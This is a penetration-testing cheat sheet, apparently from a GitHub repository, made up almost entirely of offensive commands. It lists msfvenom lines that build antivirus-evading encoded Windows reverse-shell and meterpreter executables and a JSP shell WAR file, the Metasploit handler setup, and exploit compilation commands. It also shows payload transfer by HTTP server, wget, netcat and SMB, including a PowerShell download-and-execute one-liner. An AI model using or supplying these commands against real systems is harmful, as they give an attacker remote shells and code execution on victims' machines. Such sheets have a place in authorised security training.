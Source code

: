 # Using and Transfering Vulnerabilities

## MSVenom

### [MSFVenom Cheatsheet](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)
(Below are some of my most used examples)
```bash
# windows encoded reverse tcp shell
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=1337 -e shikata_ga_nai -i 3 -f exe > shell.exe
# windows encoded meterpreter reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1337 -e shikata_ga_nai -i 3 -f exe > encoded.exe
# war file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f war > shell.war
# metasploit handler
msfconsole
use exploit/multi/handler
set lhost 192.168.1.1
set lport 1337
run
```

### B0F
```bash
# compiling as exe for meterpreter reverse tcp shell
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1337 -e x86/shikata_ga_nai -f exe -o exploit.exe
```

## Compiling Exploits

### C Code
```bash
# compiling c
gcc exploit.c -o exploit
# including pthread
gcc -pthread exploit.c -o exploit
# specific architecture (gcc-multilib)
sudo apt-get install gcc-multilib
gcc -m32 exploit.c -o exploit
gcc -m64 exploit.c -o exploit
# compiling to exe for different architecture
sudo apt-get install mingw-64
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

## Transfering Vulnerabilities

### Simple HTTP Server
(Very useful, suggest making an alias for it!)
```bash
python -m SimpleHTTPServer
wget https://192.168.1.1:8000/x -O /dev/shm/x
chmod 775 x
```

### Netcat Transfer
```bash
nc -nvlp 8080 > /dev/shm/x
nc 10.10.10.1 8080 < ./x
```

### Powershell
```bash
# execute remote program
powershell iex(new-object net.webclient).downloadString('http://192.168.1.1:8000/file.ps1')
# download remote file
powersehll invoke-webrequest -uri "http://192.168.1.1/nc.exe" -outfile "nc.exe"
```

### Samba Server
```bash
sudo smbserver.py share .
copy \\192.168.1.1\share\file.txt file.txt
```


